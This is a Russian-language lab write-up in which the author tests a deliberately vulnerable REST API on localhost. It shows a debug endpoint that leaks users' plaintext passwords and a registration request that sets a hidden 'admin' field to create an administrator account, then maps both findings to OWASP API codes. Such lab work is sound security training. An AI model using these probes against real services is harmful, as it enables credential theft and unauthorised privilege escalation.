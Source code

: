 ## REST API Vulnerabilities

### Запущу образ
docker run -d --name "otus_rest_1" -p 8080:8080 ket9/otus-devsecops-owasp-rest:latest

### Посмотрю функционал приложения
http://localhost:8080/

### Доступный функционал

```json
{
	"создать базу": "/createdb",
	"посмотреть информацию обо всех пользователях": "/users/v1",
	"посмотреть подробную информацию обо всех пользователях": "/users/v1/_debug",
	"регистрация нового пользователя": "/users/v1/register (HTTP POST)",
	"вход в приложение": "/users/v1/login (HTTP POST)",
	"просмотр пользователя по имени": "/users/v1/{username}",
	"удалить пользователя по имени (только для админов)": "/users/v1/{username} (HTTP DELETE)",
	"изменить email пользователя": "/users/v1/{username}/email (HTTP PUT)",
	"изменить пароль пользователя": "/users/v1/{username}/password (HTTP PUT)",
	"все книги": "/books/v1",
	"добавить книгу": "/books/v1 (HTTP POST)",
	"просмотр книги": "/books/v1/{book}"
}
```

### Выполню команду для создания БД
http://localhost:8080/createdb

Получен ответ от сервера
```json
{
	"message": "Database populated."
}
```

### Изучу остальные команды

По адресу http://localhost:8080/users/v1 получаю массив зарегистрированных пользоваталей:

```json
{
	"users":
	[
		{"email":"mail1@mail.com","username":"name1"},
		{"email":"mail2@mail.com","username":"name2"},
		{"email":"admin@mail.com","username":"admin"}
	]
}
```

Попробую зарегистрировать парользователя (воспользуюсь Insomnia):

Из предыдущего запроса известно, что у пользователя точно есть свойства:
<br/>email, username.

Попробую зарегистрировать пользователя (запросы POST)
<br/>http://localhost:8080/users/v1/register

Запрос 1. Заполню свойства 'username', 'email'
```json
{
	"username": "user100",
	"email": "email@email.email"
}
```

Ответ 1. Отсутствует обязательное свойство 'password'
```json
{
	"status": "fail",
	"message": "'password' is a required property"
}
```

Запрос 2. Заполню свойства 'username', 'password', 'email'
```json
{
	"username": "user100",
	"password": "password100",
	"email": "email@email.email"
	
}
```

Ответ 2. Все необходимые свойства заполнены. Пользователь создан
```json
{
	"message": "Successfully registered. Login to receive an auth token.",
	"status": "success"
}
```

Выполню запрос (GET), информацию "отладки":
<br/>- http://localhost:8080/users/v1/_debug

```json
{
	"users":
	[
		{"admin":false,"email":"mail1@mail.com","password":"pass1","username":"name1"},
		{"admin":false,"email":"mail2@mail.com","password":"pass2","username":"name2"},
		{"admin":true,"email":"admin@mail.com","password":"pass1","username":"admin"},
		{"admin":false,"email":"email@email.email","password":"password100","username":"user100"}
	]
}
```
<br/>Информативно. Получен список пользователей с раскрытыми учетных данных пользователей
<br/>Помимо этого у пользователя есть скрытое свойство 'admin'

Запрос 3. Создам новую учетную запись (запрос POST), добавив свойство 'admin' со значением 'True'
```json
{
	"username": "user101",
	"password": "password101",
	"email": "email1@email.email",
	"admin": "True"
}
```

Ответ 3. Пользователь создан
```json
{
	"message": "Successfully registered. Login to receive an auth token.",
	"status": "success"
}
```
Выполню запрос (GET), информацию "отладки" повторно:
<br/>- http://localhost:8080/users/v1/_debug

```json
{
	"users":
	[
		{"admin":false,"email":"mail1@mail.com","password":"pass1","username":"name1"},
		{"admin":false,"email":"mail2@mail.com","password":"pass2","username":"name2"},
		{"admin":true,"email":"admin@mail.com","password":"pass1","username":"admin"},
		{"admin":false,"email":"email@email.email","password":"password100","username":"user100"},
		{"admin":true,"email":"email1@email.email","password":"password101","username":"user101"}
	]
}
```

<br/>Учетная запись создана с правами администратора

### Найденные уязвимости

|#|Описание|Код|
|-|-|-|
|1|Раскрытие данных пользователей по адресу<br/>http://localhost:8080/users/v1/_debug|API3:2019 Excessive Data Exposure|
|2|Возможно создать администратора, заполнив скрытое свойство 'admin'<br/>http://localhost:8080/users/v1/register|API5:2019 Broken Function Level Authorization|